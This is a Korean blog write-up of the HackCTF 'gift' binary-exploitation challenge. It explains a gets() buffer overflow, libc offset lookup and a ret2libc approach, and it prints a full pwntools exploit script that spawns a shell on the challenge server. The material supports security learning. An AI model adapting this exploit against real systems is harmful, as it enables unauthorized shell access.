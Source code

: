 ```yaml
---
layout: post
title:  "HacCTF gift write-up"
date:   2020-02-03 19:45:55
image:  hackctf_gift.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled.png)

NX비트 말곤 다 안걸려있다.
<br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%201.png)

바이너리를 실행시켜보면 두개의 주소를 알려주고 두개의 입력을 받고 종료가 된다. 해당 주소를 이용하여 진행을 하는것으로 보인다
<br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%202.png)

출력되는 주소가 binsh의 주소와 system함수의 주소이다. 그리고 fgets로 128바이트 만큼 입력을 받고, 입력한 문자열을 출력해준 뒤, gets로 한번더 입력을 받게 된다. 여기서는 크기 제한이 없으므로 bof를 일으켜 ret를 변경하여 system함수를 실행시키면 될 것이다
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%203.png)

하지만 자세히 보면 system 함수는 실제 함수의 주소이지만, binsh는 .bss 영역에 저장된 전역변수의 이름이 binsh이다. 해당 주소를 rop의 인자로 넣으면 아무 소용이 없다. 이를 염두해야한다
<br><br><br><br>
### 2. 접근방법

---

system함수를 주기 때문에 libc_base를 구하여 오프셋을 이용해 "/bin/sh" 의 주소를 찾고 ROP를 진행하면 될 것이다. 매우 간단한 문제이다. libc_database를 이용하여 libc의 버전을 확인해보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%204.png)

ubuntu10의 2.23 버전이다. 현재 내 환경은 ubuntu16이기 때문에 로컬에서는 될지 몰라도 원격에서는 오프셋이 다르기 때문에 ubuntu10에서의 오프셋을 구해야한다. dump 프로그램을 이용하자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%205.png)

system함수와 bin_sh의 오프셋을 확인가능하다. 이를 이용하여 ROP를 진행하자
<br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3018)
#p=process("./gift")
#gdb.attach(p)

tmp=p.recvline()
bin_bash=int(tmp[32:41],16)
system_addr=int(tmp[42:],16)

log.info("bin::"+hex(bin_bash))
log.info("system::"+hex(system_addr))

libc_base=system_addr-0x0003a940
gets_adr=libc_base+0x5f3e0

p.sendline("A")
#p.recvline()

payload="A"*0x88+p32(system_addr)
payload+=p32(0x080483ad)
payload+=p32(libc_base+0x15902b)
#payload+=p32(system_addr)
#payload+="AAAA"
#payload+=p32(bin_bash)


p.sendline(payload)
#p.sendline("/bin/sh\00")

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

---

처음에 libc_databe의 우분투 버전을 제대로 확인하지 않아서 계속 시간낭비를 했다. 주어진 문제의 조건들을 잘 확인하자..